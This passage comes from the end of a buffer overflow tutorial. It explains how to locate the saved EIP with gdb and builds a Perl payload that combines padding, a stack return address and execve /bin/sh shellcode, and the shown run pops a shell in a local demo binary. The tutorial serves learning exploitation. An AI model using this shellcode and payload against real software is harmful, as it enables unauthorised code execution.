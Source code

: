 _But why run `run` whith 69 `"A"`, instead of running `run` without any argument ?_

It is important to ask ourselves this question. Indeed, we are looking for a precise address of a variable on the stack. It is important de pass 69 `"A"` as argument because it is the total length of our payload that we will send to exploit the buffer overflow (20 bytes containing the buffer and `EBP + 4` bytes for overwriting `EIP + 45` bytes of shellcode ). Now, before the stack are the environment variables and program arguments (including the program name).

[![img_54f81318e37b8](/assets/uploads/2015/03/img_54f81318e37b8.png)](/assets/uploads/2015/03/img_54f81318e37b8.png)

So if we modify the size of the arguments passed to the program, it will shift the stack, so the addresses we are looking for. This is why it is essential to stay in the same execution context, by sending an argument that is always the same size, either during our research or during our exploitation.

That being said, let's go back to the result of our breakpoint : `ESP` has the value `0xbffffc4c`, and we check that at this address is `0x08048446`, which is the saved value of `EIP` (since it is the instruction address following the `call` of `func`). So we'll have to point this `EIP` backup to the following address, which will contain our shellcode, i.e. the address `0xbffffc50`.

So we have our payload, which, in perl, looks like this :

```perl
print "A"x20 . "\x50\xfc\xff\xbf" . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
```

So in gdb, we type :

```bash
(gdb) run `perl -e 'print "A"x20 . "\x50\xfc\xff\xbf" . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'`

Starting program: /tmp/hackndo/binary `perl -e 'print "A"x20 . "\x50\xfc\xff\xbf" . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'`
AAAAAAAAAAAAAAAAAAAAP����^�1�F�F
                                �
                                 ���V
                                      ̀1ۉ�@̀�����/bin/sh
process 21429 is executing new program: /bin/dash
$
```

There we go, we also manage to pop a shell with the binary by exploiting a buffer overflow.

I also made a video with a buffer overflow exploitation as in case 1, we can [find it here](https://www.youtube.com/watch?v=V7Gdc32XRhA){:target="blank"}. (The video is in french)

I hope this article **buffer overflow tutorial** has been helpful. However, there are some protections against this type of exploitation, such as making the stack non-executable. At this point, no panic, you can still get a shell, with, for example, the [return to libc](/retour-a-la-libc/) technique. Have fun !

Feel free to comment and share if you liked it!
